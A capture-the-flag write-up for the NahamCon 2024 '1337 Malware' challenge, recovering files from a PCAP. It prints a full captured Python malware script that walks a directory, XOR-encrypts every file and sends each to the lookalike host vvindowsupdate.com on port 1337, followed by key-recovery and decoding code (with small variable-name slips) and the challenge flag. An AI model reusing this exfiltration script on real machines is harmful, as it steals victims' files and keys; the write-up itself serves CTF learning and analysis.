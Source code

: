 This is a walkthrough of the NahamCon CTF 2024 challenge **1337 Malware**

# Description
Author: @Jstith

We received a plea for help from a rather frustrated looking employee. He said he accidently ran malware on his computer, but when he tried to pay the "leet hacker" to get his files back they said the malware was "broken"... best IT could do was provide us a PCAP.

Download the file(s) below.

# Files
`1337-malware.pcapng`

# Malware
When opening the capture in Wireshark, one of the first packets is a GET request to `vvindowsupdate.com` for `/rans.py` and it is soon followed by the response, which has the code: 

```py
import socket
import base64
import os
from random import randbytes
from pwn import xor

# DON'T FORGET TO CHANGE THIS TO THE REAL KEY!!!!
key = randbytes(32)

def encrypt(filename):
    f = open(filename, 'rb')
    data = f.read()
    f.close()
   
    encrypted = xor(data, key)
    return encrypted

def send_encrypted(filename):
    print(f'sending {filename}')
    data = encrypt(filename)
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall((f'Sending: {filename}').encode())
    s.close()

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall(data)
    s.close()

def get_all_files():
    file_paths = []
    for root, dirs, files in os.walk(os.path.dirname(os.path.realpath(__file__))):
        for file in files:
            file_paths.append(os.path.join(root, file))
    file_paths.remove(__file__)      
    return file_paths

files = get_all_files()
for f in files:
    send_encrypted(f)
    #os.remove(f)
```

From this, we can see the "broken" part of the script is that the hacker doesn't know the key they used to XOR the data with. 
We can also see from the code that each time the data is transmitted, it's preceded by a packet giving the full path to the file. 

# Getting the key
From the code above, we know that we need a 32-bit key. We can get the key by XOR-ing the encoded data with known data. Looking at
the TCP streams in Wireshark, we can see that 5 files were transferred:
```
/home/davey/Documents/resources.zip
/home/davey/Documents/ecorp.png
/home/davey/Documents/Welcome Aboard.pdf
/home/davey/Documents/.ssh/id_rsa
/home/davey/Documents/.ssh/id_rsa.pub
```
Of these files, `id_rsa` will have predictable starting bytes because 
they all start with `-----BEGIN OPENSSH PRIVATE KEY-----`. I exported the 
encoded `id_rsa` into a file I named `rsaenc` and ran the following 
script to get the key. 

```py
from pwn import xor

f = open('rsaenc', 'rb')
rsadata = f.read()

rsa = b'-----BEGIN OPENSSH PRIVATE KEY-----'[:32]

key = xor(rsadata[:32], rsa)
```

# Getting the Flag
I started with the PDF file since I thought it was the most likely to have the flag. 
I exported the data from Wireshark into `pdfdata` and ran the following:

```py
f = open('pdfenc', 'rb')
pdfdata = f.read()
p = xor(pdfdata, key)
f = open('welcome.pdf', 'wb')
f.write(p)
```
The flag wasn't in there, but it did give me a password to the ZIP file. 
I exported it and decoded it in the same way

```py
f = open('zipenc', 'rb')
zdata = f.read()
z = xor(zdata, key)
f = open('resources.zip', 'wb')
f.write(r)
```

Inside the zip was a file called `flag.txt` which contained `flag{c95c4ff18b0eb88123de779051a7a24f}`
